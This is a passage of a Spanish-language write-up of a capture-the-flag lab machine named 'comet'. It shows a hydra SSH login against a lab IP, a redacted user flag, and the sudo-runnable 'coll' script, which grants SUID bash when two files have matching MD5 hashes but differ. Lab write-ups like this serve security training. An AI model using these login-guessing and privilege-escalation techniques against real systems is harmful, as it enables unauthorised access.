 ```bash
Stopped: Mon Mar 27 10:33:09 2023
```

## SSH

Usando hydra me doy cuenta que el usuario es joe en minuscula y no mayuscula como me pensaba

```bash
❯ hydra -l joe -p *********an 10.0.2.35 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - 

[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://10.0.2.35:22/
[22][ssh] host: 10.0.2.35   login: joe   password: *********an
```

### user flag

```bash
joe@comet:~$ ls
coll  user.txt
joe@comet:~$ cat user.txt
*******************e6d0991c82616
```

## Escalada de Privilegios

Viendo un poco mas de la maquina

```bash
joe@comet:~$ sudo -l
Matching Defaults entries for joe on comet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on comet:
    (ALL : ALL) NOPASSWD: /bin/bash /home/joe/coll
```

```bash
joe@comet:~$ cat coll 
#!/bin/bash
exec 2>/dev/null

file1=/home/joe/file1
file2=/home/joe/file2
md5_1=$(md5sum $file1 | awk '{print $1}')
md5_2=$(md5sum $file2 | awk '{print $1}')


if      [[ $(head -n 1 $file1) == "HMV" ]] && 
	[[ $(head -n 1 $file2) == "HMV" ]] && 
	[[ $md5_1 == $md5_2 ]] && 
	[[ $(diff -q $file1 $file2) ]]; then
    chmod +s /bin/bash
    exit 0
else
    exit 1
fi
```
